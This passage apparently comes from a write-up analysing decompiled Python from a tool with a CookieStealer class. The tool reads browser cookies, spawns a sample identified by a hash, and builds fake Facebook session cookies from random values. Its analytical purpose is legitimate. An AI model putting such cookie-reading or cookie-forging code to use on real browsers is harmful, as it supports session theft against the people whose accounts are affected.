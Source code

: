 ```python
        else:
            print(f"====== READING {browser} COOKIES ==========")
            cs.read_cookies()
            print("====== END OF COOKIES ==========")
            print("")

    else:
        print("[+] Spawning Sample 420cb16399ade8b53834b8275069ff940641f0eb2379c17c2259c0542c576c49")
        spawn_sample()
        print("[+] Done!")


if __name__ == "__main__":
    request = main()

```
We can see easily two classes: **Cookie** and **CookieStealer**, and I've just analysed functions that not error when I use **uncompyle6**:

The **Cookie** class is used to represent a browser cookie with several attributes. It initializes each attribute, providing default values when none are specified:

  ```python
  class Cookie:
  
      def __init__(self, creation_utc=None, host_key=None, top_frame_site_key=None, name=None, value=None, encrypted_value=None, path=None, expires_utc=None, is_secure=None, is_httponly=None, last_access_utc=None, has_expires=None, is_persistent=None, priority=None, samesite=None, source_scheme=None, source_port=None, last_update_utc=None):
          self.creation_utc = creation_utc if creation_utc is not None else int((datetime.now() - datetime(1601, 1, 1)).total_seconds() * 10000000)
          self.host_key = host_key
          self.top_frame_site_key = top_frame_site_key if top_frame_site_key is not None else " "
          self.name = name
          self.value = value if value is not None else " "
          self.encrypted_value = encrypted_value
          self.path = path if path is not None else "/"
          self.expires_utc = expires_utc if expires_utc is not None else int((datetime.now() + timedelta(days=360) - datetime(1601, 1, 1)).total_seconds() * 10000000)
          self.is_secure = is_secure if is_secure is not None else 0
          self.is_httponly = is_httponly if is_httponly is not None else 0
          self.last_access_utc = last_access_utc if last_access_utc is not None else self.creation_utc
          self.has_expires = has_expires if has_expires is not None else 1
          self.is_persistent = is_persistent if is_persistent is not None else 1
          self.priority = priority if priority is not None else 1
          self.samesite = samesite if samesite is not None else 0
          self.source_scheme = source_scheme if source_scheme is not None else 2
          self.source_port = source_port if source_port is not None else 443
          self.last_update_utc = last_update_utc if last_update_utc is not None else self.creation_utc
  
  
  COOKIE_MAP = {"facebook": [
                Cookie(host_key=".facebook.com", name="c_user", encrypted_value=(str(random.randint(100000000, 999999999)))),
                Cookie(host_key=".facebook.com", name="datr", encrypted_value=(random_string(10) + "-" + random_string(11) + "_S")),
                Cookie(host_key=".facebook.com", name="fr", encrypted_value=(random_string(17) + "." + random_string(27) + "." + random_string(6) + "IE.AAA.0.0." + random_string(6) + "." + random_string(11))),
                Cookie(host_key=".facebook.com", name="ps_l", encrypted_value="0"),
                Cookie(host_key=".facebook.com", name="ps_n", encrypted_value="0"),
  ```